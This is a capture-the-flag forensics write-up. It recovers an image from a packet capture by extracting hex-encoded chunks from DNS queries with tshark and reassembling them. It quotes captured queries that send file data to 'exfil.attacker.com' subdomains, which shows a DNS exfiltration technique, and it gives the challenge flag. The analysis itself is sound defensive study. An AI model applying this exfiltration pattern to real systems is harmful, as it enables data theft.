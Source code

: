 ### **Challenge Name:** Just a PCAP  

### **Description:**  
An image has been stolen, can you find it in the PCAP file?  

### **Challenge Files:**  
**[Forensic_4_-_justapcap.zip](Resources/Forensic_4_-_justapcap.zip)**  

---

### **Solution:**  

#### **Step 1: Extracting the PCAP File**  
Unzipping the challenge file to obtain the `.pcap` file:  

```bash
┌──(kali㉿kali)-[~/Desktop/tmp/forensics]
└─$ unzip Forensic_4_-_justapcap.zip                
Archive:  Forensic_4_-_justapcap.zip
  inflating: justapcap.pcap 
```

---

#### **Step 2: Analyzing the PCAP in Wireshark**  
Opening the `justapcap.pcap` file in **Wireshark**, we see something interesting in the first packet:  

```plaintext
1	0.000000	10.20.82.103	8.8.8.8	DNS	119	Standard query 0x0000 A 89504e470d0a1a0a0000000d49484452000004800000028808.000.exfil.attacker.com
```

📌 **Observation:**  
- The query name contains **hexadecimal values**, specifically:  
  - **`89504e470d0a1a0a`** → This is the **PNG file header** (`‰PNG....`).  

**Screenshot:**  
![PNG Header in DNS](Resources/image1.png)  

Similarly, the **next packet** continues the pattern:  

```plaintext
2	0.000542	10.20.82.103	8.8.8.8	DNS	119	Standard query 0x0000 A 06000000082b810d000000017352474200aece1ce900000004.001.exfil.attacker.com
```

📌 **Conclusion:**  
- The attacker has **exfiltrated an image file over DNS queries**.  
- The **filename segments (`000`, `001`, ...) are sequential**, meaning the image is split across multiple packets.  

---

#### **Step 3: Extracting Data Using Tshark**  
To extract the **hexadecimal values** from the DNS queries, run:

```bash
tshark -r justapcap.pcap -Y "dns.qry.name" -T fields -e dns.qry.name | grep -o '^[^.]*' > extracted_data.txt
```

📌 **Post-processing:**  
- Remove the last **two lines** from `extracted_data.txt`.  
- Ensure that the **last byte is `82`**, which is **valid for PNG files**.  

**Final Processed File:**  
**[extracted_data.txt](Resources/extracted_data.txt)**  

---

#### **Step 4: Reconstructing the PNG File**  
Using a **Python script** (`script.py`) to **convert the hex data back into a PNG** file:  

**[script.py](Resources/script.py)**  

Running the script gives us the **exfiltrated image**:  

**![flag.png](Resources/flag.png)**  

---

### **Flag:**  
```
ectf{DN5_3xf1ltr@t10n_15_f1nd3d}
```
---
